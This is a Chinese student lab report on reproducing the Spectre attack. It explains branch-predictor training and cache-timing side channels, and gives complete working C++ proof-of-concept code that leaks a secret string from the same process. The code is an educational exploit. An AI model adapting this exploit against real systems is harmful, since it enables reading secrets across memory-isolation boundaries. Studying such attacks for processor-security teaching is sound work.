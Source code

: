 ## 实验：Spectre 攻击验证

张一可 计15 2021010793

### 实验目的

CPU 的分支预测技术存在安全漏洞，在预测失败的情况下，CPU 不会恢复缓存状态。Spectre 漏洞正是利用 CPU 在分支预测失败后不会清空 Cache 的特性， 通过 Cache 测信道读取敏感信息。

实验通过实现 Spectre 攻击样例，理解 CPU 工作原理及其中存在的安全问题，加深对处理器安全的认识。

### 实验环境

1. 装有 Ubuntu 操作系统的主机
2. 主机状态 Intel 处理器

### 实验原理

实验的核心原理在于利用如下的 victim_function 函数。在调用 victim_function 前，先通过 cflush 将 spy_size 从缓存中清除，从内存中读取 spy_size 的同时，由于我们通过训练使 CPU 认为分支预测成功，CPU 会根据分支预测的结果提前读取 spy[x] 和 cache_set[spy[x] * 512] 的数据放入缓存。分支预测失败后，缓存中的结果不会被清除，因此读取速度更快，可以通过比较 cache_set 各位置元素的读取速度，得到 spy[x] 即敏感字符串的值。

```c++
void victim_function(size_t x) {
	if (x < spy_size) {
		temp &= cache_set[spy[x] * 512];
	}
}
```

对于敏感字符串中的每个字符，首先计算其相对于 spy 数组的位置 malicious_x：

```c++
size_t malicious_x = (size_t)(secret - (char *)spy);
```

随后重复 1000 次测试，在每轮测试中，首先通过 cflush 将 cache_set 从缓存中驱逐，再通过训练 CPU 分支预测器读取敏感数据到 cache 中。训练 CPU 分支预测的代码片段如下，重复 5 轮，每轮前 5 次调用 victim_function 访问某个 x < spy_size 的合法位置，使分支预测成功，最后一次访问 spy[malicious_x]，读取敏感数据。需要注意每次调用 victim_function 前需要将 spy_size 从缓存中清除，确保程序有足够的时间读取敏感数据到内存。调用那个 cflush 后，需要加入一定的延迟时间完成缓存的同步。

```c++
for (j = 29; j >= 0; j--) {
    _mm_clflush(&array1_size);
    for (volatile int z = 0; z < 100; z++) {} 
    
    x = ((j % 6) - 1) & ~0xFFFF;
    x = (x | (x >> 16));
    x = training_x ^ (x & (malicious_x ^ training_x));

    victim_function(x);
}
```

训练分支预测时，5 次 training_x，1 次 malicious_x 的规律同样容易被 CPU 分支预测部件优化，因此这里采用位操作将 x 在 j%6=0 时设为 malicious_x，在其他情况下设为 training_x，同时保证了实现的简洁性。

读取 cache_set[spy[x]] 数据到缓存后，通过比较 cache_set 各个位置的读取时间，利用缓存测信道信息得到对应的 spy[x] 的值。在如下的代码实现中，依次读取 cache_set[i * 512] 的值，并通过两次 rdtsc 时间戳的差值得到读取时间。若读取时间小于某个阈值，则认为此次读取是从缓存中得到的，将 results[i] 的值累加1。需要注意为了防止 CPU 在等间隔内存访问时，通过某些优化机制判断下次读取位置并预取到缓存中，应避免按顺序依次读取 cache_set，而对读取顺序进行置换。

```c++
for (i = 0; i < 256; i++) {
    mix_i = ((i * 167) + 13) & 255;
    addr = &cache_set[mix_i * 512];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD && mix_i != spy[training_x])
        results[mix_i]++;
}
```

执行上述测试 1000 次后，results 数组中最大元素对应的下标即为对应 spy[malicious_x] 的值，依次判断并输出，便可得到敏感字符串的全部信息。

### 算法实现

完整的代码实现如下：

```c++
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <x86intrin.h>
#define CACHE_HIT_THRESHOLD (100)

unsigned int spy_size = 16;
uint8_t cache_set[256 * 512];
uint8_t spy[16] = {1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16};
const char* secret = "The Secret data. abcdefg";
uint8_t temp = 0;
int results[256];

void victim_function(size_t x) {
	if (x < spy_size) {
		temp &= cache_set[spy[x] * 512];
	}
}

uint8_t read_char(size_t malicious_x) {
	int tries, i, j, k, mix_i;
	unsigned int junk = 0;
	size_t training_x, x;
	uint64_t time1, time2;
	volatile uint8_t* addr;

	for (i = 0; i < 256; i++)
		results[i] = 0;
	for (tries = 999; tries > 0; tries--) {
		for (i = 0; i < 256; i++)
			_mm_clflush(&cache_set[i * 512]); 
		
		training_x = tries % spy_size;
		for (j = 29; j >= 0; j--) {
			_mm_clflush(&spy_size);
			for (volatile int z = 0; z < 100; z++) {} 
			x = ((j % 6) - 1) & ~0xFFFF; 
			x = (x | (x >> 16));
			x = training_x ^ (x & (malicious_x ^ training_x));
			victim_function(x);
		}

		for (i = 0; i < 256; i++) {
			mix_i = ((i * 167) + 13) & 255;
			addr = &cache_set[mix_i * 512];
			time1 = __rdtscp(&junk);
			junk = *addr;
			time2 = __rdtscp(&junk) - time1;
			if (time2 <= CACHE_HIT_THRESHOLD && mix_i != spy[training_x])
				results[mix_i]++;
		}
	}
    int max_time = 0, rst;
    for (i = 0; i < 256; i++) {
        if (results[i] > max_time) {
            rst = i;
            max_time = results[i];
        }
    }
    return rst;
}

int main() {
	size_t malicious_x = (size_t)(secret - (char *)spy);
	int len = strlen(secret);

	for (size_t i = 0; i < sizeof(cache_set); i++)
		cache_set[i] = 1; 

	while (--len >= 0) {
		uint8_t rst = read_char(malicious_x++);
        printf("%c", static_cast<char>(rst));
	}
    printf("\n");
	return 0;
}
```

### 实验结果

实现的 Spectre 攻击程序可以成功读取字符串 secret 中的敏感数据：

<img src="pics/image-20240609092419377.png" alt="image-20240609092419377" style="zoom:80%;" align="left"/>

<img src="pics/image-20240609092403735.png" alt="image-20240609092403735" style="zoom:70%;" align="left"/>

### 参考资料

https://github.com/Eugnis/spectre-attack.git